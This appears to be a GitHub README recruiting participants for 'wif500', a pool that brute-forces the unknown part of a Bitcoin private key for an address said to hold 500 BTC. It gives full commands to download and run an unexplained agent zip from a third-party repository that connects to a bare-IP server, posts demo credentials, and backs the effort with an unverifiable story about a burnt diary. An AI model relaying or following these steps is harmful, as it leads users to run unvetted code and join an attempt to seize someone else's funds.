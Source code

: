 # New Pool wif500 (2023)</br>
![wif500](https://user-images.githubusercontent.com/125174641/218313449-4ffc5371-ab4e-43e3-a4fa-438b29807622.jpg)</br>
Address: [1PfNh5fRcE9JKDmicD2Rh3pexGwce1LqyU](https://www.blockchain.com/explorer/addresses/btc/1PfNh5fRcE9JKDmicD2Rh3pexGwce1LqyU) 500 BTC</br>
Known part of the 40/52 compressed wif key: ....5bCRZhiS5sEGMpmcRZdpAhmWLRfMmutGmPHtjVob</br>

You can search by yourself with WifSolverCuda or take part in the pool.

## Terms of participation in the pool</br>
47% - Whose agent will find the key.</br>
33% - Organizers.</br>
20% - 100 btc is divided among all participants in the pool.</br>


If there is a key, we will find it!</br>
Don't wait, search now</br>
Demo access to the Pool server:</br>
http://176.99.135.37</br>
Demo</br>
Demo1234

If you are ready 24/7 to participate in the search, be added to the group of [**WIF500**](https://t.me/+emIkxGlP6HhhYzJi)</br>
If you have any questions, you can ask them in the group.</br>
Unable to connect, the group will help you.</br>
(**who will be added and will not search will be removed!**)</br>
If you don't have card, you can rent them from [vast.ai](https://vast.ai) or from the miners in the group

## How to connect to the pool?
### WINDOWS</br>
Download agent https://github.com/macpunk9010/remotos/raw/main/agent-python-0.7.0.zip</br>
Create Folder</br>
Put zip downloaded into folder</br>
open CMD prompt in the folder</br>
pip install psutil</br>
pip install requests</br>

python3 agent-python-0.7.0.zip</br>

http://176.99.135.37/api/server.php</br>

start <- this is a voucher token</br>

If errors and will not start, delete and start over downloading [**agent-python-v6.1fixed.zip**](https://github.com/phrutis/wif500/releases/download/0.1/agent-python-v6.1fixed.zip)</br>
New Folder, put zip in it, open CMD prompt in folder</br>

pip install psutil</br>
pip install requests</br>

python3 agent-python--v6.1fixed.zip

http://176.99.135.37/api/server.php

start <- this is a voucher token

<hr>
For Linux (ubuntu)</br>

sudo apt update
sudo apt install -y python3-pip

git clone https://github.com/macpunk9010/remotos</br>
cd remotos</br>

pip3 install psutil</br>
python3 agent-python-0.7.0.zip</br>

http://176.99.135.37/api/server.php

start <- this is a voucher token
<hr>
Agent Quick Launch</br>
python3 agent-python-0.7.0.zip --url http://176.99.135.37/api/server.php --voucher start</br>


Restarting Agent</br>
Linux - python3 agent-python-0.7.0.zip</br>
Windows - py3 agent-python-0.7.0.zip
<hr>

Continued work for [vast.ai](https://vast.ai) ubuntu file onstart.sh

cd remotos & </br>
python3 /root/remotos/agent-python-0.7.0.zip --url http://176.99.135.37/api/server.php --voucher start

### Description of the diary

Teddy came up to me (American)</br>
The story is this:

He worked for an Indian e-currency exchange company.

He attached links to the site of an Indian crypto exchange company and others.

They had a miner client, he often cashed btc through them.</br>
Once he turned to them with a request to restore the key in a burnt diary.

At that time it was 2017-2018. The btc rate was low, the search for the key was unprofitable.</br>
There were no programs for recovering a key on a GPU yet.</br>
The GPU cards were weaker than the GTX 1080.</br>
Perhaps there was a program on the processor, but it would take millions of years to find the key on it.

The photo in the diary changed hands and came to me in the spring of 2022 from Taddi.</br> 
For this task, the WifSolverCuda program was made. A [challenge](https://github.com/jonlloner/wif500) was made on its modification.

About the [challenge](https://github.com/jonlloner/wif500):</br>
The large range has been split into 3364 ranges (58*58)</br>
The challenge began, the passage of the ranges was recorded by screenshots and [recorded in the table manually](https://github.com/jonlloner/wif500/blob/main/x64/Release/table.md).</br> 
Since % of the pool was relied on for participation. Hunters began to fake screenshots of the passage.</br>
They were hoping someone else would find it and they would get a big % of the pool.</br>
I protected the fake with a hex id. It didn't work, because with the big hash step they faked the walkthrough again.</br>
As a result, some hunters spent their money, others forged. As a result, 2000 ranges passed, of which half are fake.</br> 
Several people confessed to falsifying the results. The challenge has been stopped.</br>

Now the search happens in the pool, which has many advantages:</br>
The search speed is several times higher.</br>
There is support for multigpu.</br>
Accurate statistics</br>
There are no fakes, how much passed, so much is your% of the pool.

Addition:
One of the hunters contacted the owner of the diary to find out more. information from the owner. The owner is from India.</br>
According to him, the diary is real. As evidence, he made inscriptions on the inside of the diary and a new photograph of the key.</br>
See photos [**here**](https://user-images.githubusercontent.com/125174641/218313586-287f080e-9bc8-4f06-8b7d-0a2fbceb8743.jpg) and [**here**](https://user-images.githubusercontent.com/125174641/218313489-b1d8ab4e-8d3a-4d6a-b584-d15fcdf7127e.jpg)</br>
The hunter wanted to clarify the symbols of the key and got a better picture of the desired part:</br>
![333](https://user-images.githubusercontent.com/125174641/218313615-e0a09020-6a43-44d8-8511-6624e636f6cb.jpg)</br>

According to the hunter, the owner stopped making contact. phrutis has no owner contact</br>

Don't waste your time, join the search



